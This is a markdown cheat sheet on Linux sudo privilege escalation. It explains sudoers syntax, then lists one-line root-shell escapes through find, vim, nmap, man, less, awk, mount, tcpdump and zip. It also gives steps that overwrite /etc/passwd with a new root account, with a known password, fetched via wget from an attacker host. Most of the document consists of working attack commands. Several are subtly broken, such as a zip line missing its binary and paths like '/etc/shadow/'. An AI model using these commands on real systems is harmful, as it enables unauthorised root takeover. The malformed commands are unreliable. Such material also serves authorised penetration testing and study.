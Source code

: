 # Background
- Substitute User and Do 
- Users can execute command under root (or other users) using their own passwords instead of root’s one or without password depending upon sudoers setting.
- Settings for the local Host are defined in the /etc/sudoers/ file.

# Syntax
User Terminals =(Acting as user) Allowed Command 
Examples:
```
root ALL=(ALL) ALL 
```
  - Root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.
```
touhid ALL= /sbin/poweroff 
```
  - Touhid can from any terminal, run the command power off using touhid’s user password.
```
touhid ALL = (root) NOPASSWD: /usr/bin/find 
```
  - Touhid can from any terminal, run the command find as root user without password.

# Attack Vector
1. Display the SUDO commands available to the current user.
```
sudo -l
```
2. Identify Vulnerable Binaries
[GTFOBins](https://gtfobins.github.io/)
## CP
Copy and overwrite the /etc/shadow/ file with a new entry for a root user.
```
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
```
  - Password is "test".
## Find
```
sudo find /etc/passwd -exec /bin/sh \; 
sudo find /bin -name nano -exec /bin/sh \; 
sudo find / -exec bash -i \; 
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 
```
## Vim
```
sudo vim -c '!sh'
```
## Nmap
### Old Way
```
sudo nmap --interactive 
nmap> !sh 
```
  - Note : nmap –interactive option not available in latest nmap.
### New Way
```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
## Man
```
sudo man man
```
  - After that press !sh and hit enter.
## Less/More
```
sudo less /etc/hosts
```
  - After that press !sh and hit enter. 
```
sudo more /etc/hosts 
```
  - After that press !sh and hit enter.
## AWK
```
sudo awk 'BEGIN {system("/bin/sh")}'
```
## Nano
A text editor that can be used to overwrite the passwd file with a new root user and predefined password.
```
sudo nano  /etc/passwd 
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
Su newuser
```
  - Password is "test".
## Wget
You can download a copy of the target passwd file, change it, then re-upload it to the target machine.
1. Send the passwd file from the target box to your attacker box through various transfer means.
2. Add a new root user with a password of "test".
```
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
```
3. Re-upload the passwd file from the attacker box to the target box.
```
sudo wget [attacker IP]:[port]/passwd -O /etc/passwd
```
## Apache
Can't get a shell with this binary but can display file contents.
```
sudo apache2 -f /etc/shadow/
```
## Mount
```
sudo mount -o bind /bin/bash /bin/mount 
sudo mount 
```
## TCPdump
```
echo $’id\ncat /etc/shadow’ > /tmp/.test 
Chmod +x /tmp/.test 
Sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
## ZIP
```
Sudo zipfile.zip [random text file]  -T –-unzip-command="sh –c /bin/bash"
```
